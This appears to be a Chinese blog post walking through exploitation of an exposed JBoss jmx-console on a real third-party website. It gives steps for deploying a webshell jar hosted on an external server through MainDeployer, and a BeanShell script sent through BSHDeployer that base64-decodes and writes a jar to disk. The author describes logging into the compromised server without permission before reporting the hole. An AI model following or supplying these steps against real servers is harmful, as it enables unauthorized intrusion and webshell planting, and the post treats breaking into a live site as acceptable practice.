 ```yaml
---
layout: post 
title: "JBoss漏洞利用"
description: ""
category: security
tags: []
---
```


无意中访问j馆网站时发现这样的页面：![界面](/assets/images/jb1.jpg "界面")

很明显，网站配置存在问题，google一下，很容易就可以找到这个关于JBoss漏洞利用的[paper](securityxploded.com/JBoss%20Whitepaper.pdf)，以及一些衍生的[中文翻译](http://www.nxadmin.com/web/847.html)。好了，下面就照着paper实践就行了。

1.通过jmx-console部署恶意jar包
![MainDeployer](/assets/images/jb2.jpg)

找到MainDeployer中的deploy方法,在URL参数中填入jar包的位置。

![deploy](/assets/images/jb3.png)

>jar包制作：从[这里](http://www.vonloesch.de)下载`browser.jsp`，在linux命令行打包：

>`$jar cf browser.jar browser.jsp`

>好了，把生成的jar包丢到某个外网可以直接访问的地方就可以了。

点击invoke，提示`operation...success`之类的就ok了。

![pwnwd](/assets/images/jb4.jpg)

ok,拿下了。

2.通过BSHDeployer部署BeanShell脚本

这是上面paper中给出的第二种方法，因为在一些配置中，防火墙不允许JBoss向外部发出连接请求。而这种方法就是直接将可以直接运行的脚本放到被攻击机器上。

2.1 编写攻击的jsp（我随便找了个简单的helloworld做测试）

>$ cat h123.jsp

<pre><code>
<%@ page language="java" contentType="text/html; charset=ISO-8859-1" pageEncoding="ISO-8859-1"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
<title>Hello from JSP</title>
</head>
<body>

<% out.print("<h1>My Addition Application</h1>"); %>
<hr>
Welcome to the addition
Application<br>
Current Time is : <%=new java.util.Date()%>
</body>
</html>
</code></pre>

2.2 生成jar包
>$ jar cf h123.jar h123.jsp

2.3 利用base64对jar包进行加密
>$ base64 -w 0 h123.jar >>h123.jar.base64

2.4 编写解密脚本

<pre><code>
import java.io.FileOutputStream; import sun.misc.BASE64Decoder; String
val="2.3中加密后的jar文件内容"; BASE64Decoder decoder = new BASE64Decoder(); byte[]
byteval=decoder.decodeBuffer(val); FileOutputStream fs = new
FileOutputStream("D:\\h123.war"); fs,write(byteval); fs.close();
</code></pre>

2.5 找到BSHDeployer的createScriptDeployment

![BSHDeployer](/assets/images/jb5.png)

![createScriptDeployment](/assets/images/jb6.png)
	
	在p1处填入2.4中脚本的内容，p2处填入访问的节点如h123，点击invoke，提示`operation...success`之类就ok了。

2.6 看看效果

![效果](/assets/images/jb7.jpg)

ps:
登入这台windows
server2003后，我发现这台机器已经完全沦为了挖矿的机器，尤其是到了晚上:)

感谢j馆提供机器，充当了我第一次入侵的小白鼠，作为回报，已经将漏洞上报某云:)
